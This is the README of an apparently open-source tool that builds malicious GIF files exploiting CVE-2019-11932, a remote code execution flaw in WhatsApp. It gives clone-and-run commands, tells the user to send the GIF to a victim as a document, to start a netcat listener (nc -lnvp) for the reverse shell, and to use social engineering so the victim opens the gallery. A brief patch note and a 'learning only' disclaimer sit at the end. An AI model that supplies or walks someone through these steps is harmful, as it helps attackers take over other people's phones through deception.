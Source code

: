 # WhatsPayloadRCE

This is a Automated Generate Payload for CVE-2019-11932 (WhatsApp Remote Code Execution)

1. Auto install GCC (no harm command, you can see this is open-source)
2. Saving to **.GIF** file

## How To Use ?
```
sudo apt install git
git clone https://github.com/Err0r-ICA/WhatsPayloadRCE
cd WhatsPayloadRCE && bash start
```

## Screenshot 
![Screenshot](https://i.postimg.cc/L9yF7dkb/Screenshot-20200422-225622-Termux.jpg) 

## How Get Shell ?

1. You just send the **.GIF** file to victim user **AS A DOCUMENT NOT IMAGES**
2. And set the nc / netcat to port you set on the WhatsRCE tools {**nc -lnvp your_port**}
3. You can use the Social Engineering attack so that victims can be attracted to launch this exploit
4. Tell the victim to open the gallery via whatsapp and send the victim to send any phot.os After that a few seconds later you will receive a shell connection from the victim

## How To Avoid This Attack?

1. Update your whatsapp to the latest version **(Patched on Version 2.19.244)**
2. How to receive any file including audio images and others from people we don't know

### Thanks to [awakened1712](https://awakened1712.github.io/) - [Edo Maland](https://github.com/Screetsec/) - [IndoXploit](https://indoxploit.or.id)

# **This is only for learning, consequences etc. if you use it for a crime I am not responsible!**
